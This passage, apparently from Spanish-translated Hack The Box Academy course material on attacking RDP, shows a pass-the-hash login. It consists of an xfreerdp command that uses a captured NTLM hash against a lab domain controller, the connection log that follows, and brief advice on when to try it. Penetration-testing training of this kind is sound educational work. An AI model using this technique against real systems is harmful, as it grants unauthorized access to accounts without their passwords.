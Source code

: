 Una vez que se agrega la clave de registro, podemos usar`xfreerdp`con la opción`/pth`Para obtener acceso RDP:

Atacando a RDP

```
xnoxos@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

Si funciona, ahora se registraremos a través de RDP como el usuario de destino sin conocer su contraseña de ClearText.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-6-2.png)

Tenga en cuenta que esto no funcionará en todos los sistemas de Windows que encontramos, pero siempre vale la pena intentarlo en una situación en la que tengamos un hash NTLM, sabe que el usuario tiene derechos RDP contra una máquina o un conjunto de máquinas, y el acceso a la GUI nos beneficiaría de alguna manera para cumplir con el objetivo de nuestra evaluación.